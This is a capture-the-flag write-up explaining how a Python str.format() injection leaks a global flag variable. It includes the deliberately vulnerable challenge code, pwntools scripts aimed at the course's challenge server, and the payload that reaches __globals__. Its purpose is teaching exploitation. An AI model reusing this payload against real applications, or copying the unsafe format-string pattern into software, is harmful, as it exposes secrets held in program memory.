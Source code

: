 ```yaml
---
title:  "Writeup: slither"
date:   2020-05-11 9:00:00
categories: writeup
layout: post
author: Alexander Rus
---
```


The challenge requires us to exploit vulnerability in the `str.format()` function. This is a particularly powerful vulnerability as it allows one to access attributes of objects in the program. The python source code is shown below.

```c
#!/usr/bin/python3
import random

FLAG = open("flag.txt", "r").read() 


class PythonStore:
    def __init__(self):
        self.data = random.randint(0, 256)


user_input = input('''
Welcome to the Plentiful Pythons! 
We have numerous pythons for sale.
How would you like to view the count of pythons we have?
''')

if user_input == "":
    user_input = "d"

format_str = "We have {data.data:" + user_input + "} pythons! Bye!"

print(format_str.format(data=PythonStore()))
```

Looking at the code, we can see that our goal is to read the contents of the `FLAG` variable. Though this variable may appear disjointed from the rest of the program, we can access it given the correct vulnerability. Now, we can see that in our class definition of `PythonStore`, when initializing an object, we set the variable data to be a random integer. After that, the user is prompted with an input asking them if they would like to 'view the count of pythons we have'. If the user input is blank or `d`, we then set it to `d`, and we format a message: "We have {data.data:" + user_input + "} pythons! Bye!". We then print our formatted string. 

If we examine the line `format_str = "We have {data.data:" + user_input + "} pythons! Bye!"`, and the `user_input` is set to `""`, then the contents of `format_str` will be `"We have {data.data:d} pythons! Bye!"`. If we put our exploit in a python file, such a file may look as such:        

```c
from pwn import *

r = remote("cs4401shell2.walls.ninja", 44675)

payload1 = ""
r.sendline(payload1)
print(r.recv())

payload2 = ""
r.sendline(payload2)
print(r.recv())
```

The reason this exploit has two payloads, is in order to keep the connection to the port open and print out the message. The return message from the exploit appears as
 
```c
Welcome to the Plentiful Pythons! 
We have numerous pythons for sale.
How would you like to view the count of pythons we have?

We have 125 pythons! Bye!
```
By placing a `d` in the placeholder `{data.data:d}`, we are specifically printing the decimal (thats the `d`) form of the data variable in the data object. In this form the program prints the random integer that is generated. By exploiting the `format()` method, we should be able to print the `FLAG` instead of the random integer.

Luckily for us, `FLAG` is global, and therefore is stored in the the `__globals__` dictionary, an attribute of Python object methods. Because `PythonStore` will create an object, that object has access to `FLAG`, and it can be accessed with the string: `data.__init__.__globals__[FLAG]`. And so in order to print this value we will trick our program into printing the flag by sneeking in two format clauses. We can accomplish this with an exploit formatted as such:

```c
from pwn import *

r = remote("cs4401shell2.walls.ninja", 44675)

payload1 = "d}{data.__init__.__globals__[FLAG]"
r.sendline(payload1)
print(r.recv())

payload2 = ""
r.sendline(payload2)
print(r.recv())
```

This will give us our output:

```c
Welcome to the Plentiful Pythons! 
We have numerous pythons for sale.
How would you like to view the count of pythons we have?

We have 15451304b979b77c7e0daef93c6eef30af0
 pythons! Bye!
```